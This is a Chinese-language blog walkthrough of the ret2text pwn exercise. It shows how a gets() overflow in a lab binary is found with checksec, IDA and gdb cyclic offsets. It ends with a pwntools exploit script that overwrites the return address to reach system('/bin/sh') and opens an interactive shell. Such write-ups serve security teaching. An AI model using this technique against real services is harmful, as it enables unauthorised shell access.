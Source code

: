 ```yaml
---

layout:     post
title:      ret2text
subtitle:   解题思路
date:       2018-07-05
author:     Mao
header-img: img/post-bg-cook.jpg
catalog: true
tags:
    - PWN
    - 栈溢出
---
```




附件链接：



本文讲解栈溢出中，最简单的利用

环境要求

> ubuntu 16.04 64bit
>
> python 2.7



所需工具

> pwntools
>
> gdb-peda
>
> 32位 ida



第一步

利用pwntools的checksec查看elf文件的保护措施

```
#checksec ret2text

    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
```



第二步

利用file命令，查看文件信息

```
file ret2text

ret2text: ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), dynamically linked
```



第三步

ida分析程序，双击左边的main函数，然后按F5，出现伪C代码

![image-20180911153947593](http://maoshuu.oss-cn-beijing.aliyuncs.com/blog/2018-09-11-074400.jpg)



简单分析，能够发现第九行gets函数存在溢出，

![image-20180911154339254](http://maoshuu.oss-cn-beijing.aliyuncs.com/blog/2018-09-11-074405.png)



buf的长度为0x64=100，如果gets函数接收到的数据长度大于100，肯定会覆盖buf外的数据

![image-20180911154833684](http://maoshuu.oss-cn-beijing.aliyuncs.com/blog/2018-09-11-075031.png)



第四步

定位覆盖函数返回地址的位置

cyclic 200

![image-20180911160406996](http://maoshuu.oss-cn-beijing.aliyuncs.com/blog/2018-09-11-080411.png)



gdb -q ret2text，run命令运行程序，然后把cyclic生成的字符串输入

![image-20180911160327983](http://maoshuu.oss-cn-beijing.aliyuncs.com/blog/2018-09-11-080333.png)

观察eip寄存器的值，变成了0x62616164，main函数返回地址被覆盖为0x62616164



cyclic -l 0x62616164

![image-20180911160531664](http://maoshuu.oss-cn-beijing.aliyuncs.com/blog/2018-09-11-081819.png)



第五步

确定函数的ret返回地址

![image-20180911160642678](http://maoshuu.oss-cn-beijing.aliyuncs.com/blog/2018-09-11-081739.png)



双击system函数

![image-20180911160718703](http://maoshuu.oss-cn-beijing.aliyuncs.com/blog/2018-09-11-081743.png)



选中system函数，按x快捷键

![image-20180911160739851](http://maoshuu.oss-cn-beijing.aliyuncs.com/blog/2018-09-11-081747.png)



进入程序调用system函数的代码区，我们发现程序直接执行了system('/bin/sh')

![image-20180911160820091](http://maoshuu.oss-cn-beijing.aliyuncs.com/blog/2018-09-11-081758.png)



我们让main函数的ret地址返回到这里执行system('/bin/sh')

按一下tab键

![image-20180911161021606](http://maoshuu.oss-cn-beijing.aliyuncs.com/blog/2018-09-11-081755.png)

确定system('/bin/sh')的汇编代码的地址为 0x0804863A，0x08048641是call system函数，但是调用函数之前需要传递参数，0x0804863A是传递参数的过程，两句汇编代码结合起来就是system('/bin/sh')这句c代码



exp脚本：

```
#!/usr/bin/env python

from pwn import *

remote_is = 1

if remote_is:
	sh = remote('127.0.0.1', 4444)
else:
	sh = process('./ret2text')

system_addr = 0x804863A
sh.sendline('a'*112 + p32(system_addr))

sh.interactive()
```


